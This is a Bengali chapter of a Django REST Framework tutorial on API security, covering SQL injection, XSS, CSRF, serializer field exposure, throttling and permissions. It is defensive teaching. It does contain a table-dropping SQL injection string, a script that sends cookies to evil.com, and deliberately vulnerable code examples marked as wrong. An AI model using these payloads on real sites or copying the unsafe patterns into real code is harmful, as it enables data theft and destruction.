

# Section 23: Security

আগের chapter এ আমরা Deployment এর নিরাপদ সেটআপ দেখেছি। এই chapter এ আমরা আরও গভীরে যাব — সাধারণ কিছু আক্রমণ (SQL Injection, XSS, CSRF) কী, এবং DRF কীভাবে built-in ভাবে এগুলো থেকে সুরক্ষা দেয়, এবং আমাদের নিজেদের কী কী সতর্কতা নেওয়া উচিত।

---

## Why — Security কেন প্রতিটা Developer এর দায়িত্ব?

একটা API শুধু ফিচার-সম্পূর্ণ হলেই যথেষ্ট না — যদি এটা সহজে আক্রমণযোগ্য হয়, ব্যবহারকারীর ডেটা, এমনকি পুরো সিস্টেম বিপন্ন হতে পারে। ভালো খবর হলো — DRF এবং Django ইতিমধ্যে অনেক common আক্রমণ থেকে **built-in ভাবে সুরক্ষা** দেয়, কিন্তু কিছু জিনিস developer কে সচেতনভাবে করতে হয়।

---

## ১. SQL Injection

### সমস্যা কী

SQL Injection হলো, যখন user এর ইনপুট সরাসরি SQL query তে বসিয়ে দেওয়া হয়, এবং আক্রমণকারী সেই ইনপুটে ক্ষতিকর SQL কোড ঢুকিয়ে database কে ম্যানিপুলেট করে।

```python
# ❌ বিপজ্জনক — raw SQL এ সরাসরি user input বসানো
from django.db import connection

def unsafe_search(request):
    query = request.GET.get('q')
    cursor = connection.cursor()
    cursor.execute(f"SELECT * FROM blog_post WHERE title = '{query}'")
    # যদি query = "'; DROP TABLE blog_post; --" হয়, পুরো টেবিল মুছে যেতে পারে!
```

### DRF/Django এর সুরক্ষা

```python
# ✅ নিরাপদ — Django ORM ব্যবহার করা
posts = Post.objects.filter(title=query)
```

::: tip
Django ORM ব্যবহার করলে (যেটা আমরা পুরো ডকুমেন্টেশন জুড়ে করেছি — `Post.objects.filter()`, `Post.objects.get()`) SQL Injection থেকে **automatic ভাবে সুরক্ষিত** থাকো, কারণ ORM নিজে থেকেই properly parameterized query তৈরি করে। raw SQL ব্যবহার করলে (`cursor.execute()`), তখনই এই ঝুঁকি তৈরি হয়।
:::

---

## ২. XSS (Cross-Site Scripting)

### সমস্যা কী

XSS হলো, যখন user এর ইনপুট (যেমন Comment) সরাসরি অন্য user এর ব্রাউজারে রেন্ডার হয়, এবং সেই ইনপুটে ক্ষতিকর JavaScript কোড থাকতে পারে।

```
Attacker একটা Comment পোস্ট করলো:
"<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>"

যদি frontend এই টেক্সট সরাসরি HTML এ inject করে,
এই script চলে যাবে এবং cookie চুরি হয়ে যেতে পারে
```

### DRF এর সুরক্ষা

DRF নিজে থেকে JSON response দেয় (HTML render করে না), তাই DRF নিজে সরাসরি XSS এর জন্য দায়ী না। কিন্তু **frontend** যদি সেই ডেটা সঠিকভাবে escape না করে HTML এ বসায়, তখনই সমস্যা হয়।

::: tip
Backend developer হিসেবে, তুমি কিছু করতে পারো:
- Comment/text field এ HTML tag strip করার validation যোগ করা
- Content Security Policy (CSP) header যুক্ত করা
:::

```python
import bleach

def validate_body(self, value):
    cleaned = bleach.clean(value, tags=[], strip=True)  # সব HTML tag সরিয়ে ফেলা
    return cleaned
```

```bash
pip install bleach
```

---

## ৩. CSRF (Cross-Site Request Forgery)

### সমস্যা কী

CSRF হলো, যখন একজন logged-in user কে না জানিয়ে, অন্য একটা malicious website থেকে তার নামে request পাঠানো হয় (যেমন, user login করা অবস্থায় malicious site এ গেলে, সেই site তার নামে "Delete Account" request পাঠাতে পারে)।

### DRF তে CSRF কীভাবে কাজ করে

::: tip
JWT authentication ব্যবহার করলে (আমাদের Blog API যেমন করছে), CSRF এর ঝুঁকি স্বাভাবিকভাবেই কম থাকে — কারণ JWT token সাধারণত `Authorization` header এ পাঠানো হয় (cookie তে না), এবং malicious site সেই header set করতে পারে না browser এর same-origin policy এর কারণে।
:::

তবে Session Authentication ব্যবহার করলে (Django Admin এর মতো), CSRF token বাধ্যতামূলক — Django এটা built-in ভাবে handle করে।

---

## ৪. Password Security — আগের Chapter এর পুনরাবৃত্তি (গুরুত্বপূর্ণ বলে)

```python
# ❌ কখনো না
user = User.objects.create(username='rahim', password='pass1234')  # Plain text!

# ✅ সবসময়
user = User.objects.create_user(username='rahim', password='pass1234')  # Automatic hashing
```

---

## ৫. Sensitive Data Exposure — Serializer এ সতর্কতা

```python
# ❌ বিপজ্জনক — Password field automatic ভাবে exposed হতে পারে
class UserSerializer(serializers.ModelSerializer):
    class Meta:
        model = User
        fields = '__all__'  # সব field, password hash সহ!
```

```python
# ✅ নিরাপদ — শুধু প্রয়োজনীয় field explicit ভাবে উল্লেখ করা
class UserSerializer(serializers.ModelSerializer):
    class Meta:
        model = User
        fields = ['id', 'username', 'email']  # password বাদ
```

::: danger
`fields = '__all__'` ব্যবহার করা সুবিধাজনক মনে হলেও, এটা ভবিষ্যতে Model এ নতুন sensitive field (যেমন `secret_token`) যোগ হলে সেটাও automatic ভাবে API তে expose করে দিতে পারে — কখনো এভাবে ব্যবহার না করাই নিরাপদ, explicit field list রাখো।
:::

---

## ৬. Rate Limiting — আগের Throttling Chapter এর সংযোগ

Brute-force attack (বারবার password চেষ্টা করে login ভাঙার চেষ্টা) থেকে সুরক্ষার জন্য, Login endpoint এ বিশেষভাবে কড়া throttle rate দেওয়া উচিত।

```python
class LoginThrottle(AnonRateThrottle):
    rate = '5/minute'

class LoginView(TokenObtainPairView):
    throttle_classes = [LoginThrottle]
```

---

## ৭. HTTPS ও Secure Headers — আগের Deployment Chapter এর সংযোগ

```python
SECURE_BROWSER_XSS_FILTER = True
SECURE_CONTENT_TYPE_NOSNIFF = True
X_FRAME_OPTIONS = 'DENY'
```

- `SECURE_BROWSER_XSS_FILTER` — পুরনো ব্রাউজারের built-in XSS filter সক্রিয় করে
- `SECURE_CONTENT_TYPE_NOSNIFF` — ব্রাউজারকে content-type নিয়ে "অনুমান" করতে বাধা দেয়
- `X_FRAME_OPTIONS = 'DENY'` — সাইটকে `<iframe>` এ embed হওয়া থেকে বিরত রাখে (clickjacking আক্রমণ প্রতিরোধ)

---

## ৮. Permission ভুলে যাওয়া — সবচেয়ে সাধারণ ভুল

```python
# ❌ বিপজ্জনক — কোনো permission_classes নেই
class PostViewSet(viewsets.ModelViewSet):
    queryset = Post.objects.all()
    serializer_class = PostSerializer
    # কেউই এখন যেকোনো কাজ করতে পারবে!
```

আগের **Permission chapter** এ যা শিখেছি সেটা মনে করিয়ে দিচ্ছি — DRF এর `DEFAULT_PERMISSION_CLASSES` global settings এ কনফিগার না থাকলে, ডিফল্ট ভাবে `AllowAny` প্রযোজ্য হয় — যেটা সবসময় নিরাপদ না।

---

## Security Checklist



---

## Common Mistakes

- `fields = '__all__'` ব্যবহার করে sensitive field অজান্তে expose করা
- Raw SQL query তে সরাসরি user input বসানো
- Permission class define করতে ভুলে যাওয়া, বিশেষত নতুন ViewSet বানানোর সময়
- Login/Registration endpoint এ throttling না রাখা
- Password/token কখনো log ফাইলে print করা

---

## Best Practices

- সবসময় Django ORM ব্যবহার করো, raw SQL এড়িয়ে চলো
- Serializer এ সবসময় explicit field list রাখো
- প্রতিটা নতুন View/ViewSet বানানোর সময় সচেতনভাবে `permission_classes` চিন্তা করো
- নিয়মিত dependency (Django, DRF, third-party প্যাকেজ) আপডেট রাখো — পুরনো ভার্সনে known security vulnerability থাকতে পারে

---

## Interview Questions

**প্রশ্ন: Django ORM কীভাবে SQL Injection থেকে সুরক্ষা দেয়?**
> Django ORM automatic ভাবে parameterized query তৈরি করে — user input সরাসরি SQL string এ বসানো হয় না, বরং আলাদা parameter হিসেবে database driver এ পাঠানো হয়, যেটা injection সম্ভব করে না।

**প্রশ্ন: `fields = '__all__'` কেন ঝুঁকিপূর্ণ হতে পারে?**
> ভবিষ্যতে Model এ নতুন sensitive field (যেমন internal token, hashed password) যোগ হলে, সেটাও automatic ভাবে API response এ চলে আসতে পারে — explicit field list এই ঝুঁকি এড়ায়।

**প্রশ্ন: JWT authentication CSRF ঝুঁকি কেন কমায়?**
> JWT সাধারণত `Authorization` header এ পাঠানো হয়, browser cookie তে না — এবং malicious site browser এর same-origin policy এর কারণে সরাসরি সেই header set করে request পাঠাতে পারে না, যেটা CSRF এর মূল আক্রমণ পদ্ধতি ব্যর্থ করে দেয়।

---

## Summary

- **SQL Injection** — Django ORM ব্যবহার করলে automatic সুরক্ষা, raw SQL এড়িয়ে চলা উচিত
- **XSS** — DRF নিজে JSON দেয় বলে সরাসরি ঝুঁকি কম, কিন্তু user input sanitize করা ভালো practice
- **CSRF** — JWT authentication এ ঝুঁকি স্বাভাবিকভাবেই কম, Session Auth এ Django built-in সুরক্ষা দেয়
- **Sensitive Data** — Serializer এ সবসময় explicit field list, কখনো `'__all__'` না
- **Permission ও Throttling** — প্রতিটা endpoint এ সচেতনভাবে চিন্তা করা প্রয়োজন, বিশেষত Authentication endpoint এ

পরের chapter — **Section 24: DRF Interview Questions** — এ আমরা পুরো ডকুমেন্টেশন জুড়ে শেখা সব বিষয়ের একটা সংকলিত Interview Question ব্যাংক তৈরি করব।
